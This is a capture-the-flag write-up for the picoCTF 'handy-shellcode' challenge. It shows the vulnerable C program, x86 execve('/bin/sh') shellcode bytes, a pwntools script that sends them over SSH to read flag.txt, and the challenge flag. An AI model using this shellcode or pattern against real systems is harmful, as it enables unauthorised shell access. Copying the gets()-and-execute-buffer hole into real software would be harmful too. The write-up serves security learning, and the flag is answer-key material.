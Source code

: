 # handy-shellcode - Points: 50

## description

This [program](./vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af on the shell server. [Source](./vuln.c).

## solution

We're given a binary as well as the source code for this challenge.
The source code is shown below:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");

  return 0;
}
```

We can see that the ```vuln()``` function stores user input using ```gets(buf)``` and that memory at the address of ```buf``` is executed as a function here:

```c
((void (*)())buf)();
```

As the name of the challenge suggests, we need to input shell code that will allow us to read the flag file.
This can be done by calling ```/bin/sh``` and sending commands through ```stdin```.

To do this, I used shellcode from http://shell-storm.org/shellcode/ for Linux/Intel x86.
The code I chose was execve("/bin/sh") by Magnefikko, which can be found here: http://shell-storm.org/shellcode/files/shellcode-585.php

```
\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

## exploit script

I used pwntools to connect to the shell server, start the process, and send the shellcode and commands to read the flag.
I then switched to interactive mode to receive the flag and allow me to input any other commands, though permissions were restricted to reading this flag only.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/handy-shellcode_3_1a2e95a810eefe4a5994631812c0b8af'

print("running vuln")
vuln = conn.process(location + '/vuln')

print("sending payload")
vuln.sendlineafter('shellcode', '\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68')
vuln.sendlineafter('$', 'cd ' + location)
vuln.sendlineafter('$', 'cat ' + location + '/flag.txt')

print("done")
vuln.interactive()
```

Flag: ```picoCTF{h4ndY_d4ndY_sh311c0d3_5843b402}```

